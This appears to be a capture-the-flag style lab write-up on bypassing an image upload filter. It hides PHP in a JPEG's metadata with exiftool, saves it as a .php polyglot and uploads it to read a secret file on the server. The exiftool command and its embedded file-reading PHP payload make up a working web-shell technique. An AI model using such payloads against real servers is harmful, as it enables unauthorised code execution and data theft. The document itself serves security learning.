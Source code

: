 # Remote code execution via polyglot web shell upload 

#WRITEUP <br> <hr> <br> 
## Recon 

Interact with the image upload functionality. The app validates the uploaded file content meaning it will only accept images.

## Vulnerability assessment

The lab gives a hint about a polyglot. Looking into it it may be possible to embed PHP code within an image metadata using exiftool.

```
exiftool -Comment="<?php echo 'secret ' . file_get_contents('/home/carlos/secret') . ' secret'; ?>" image.jpg -o polyglot.php
```

## Exploitation

Upload the generated payload

![[Pasted image 20221113182207.png]]

Then intercept the response for the "avatar image"

![[Pasted image 20221113182300.png]]

It contains the secret between the provided separators, upload the secret and the lab is solved.

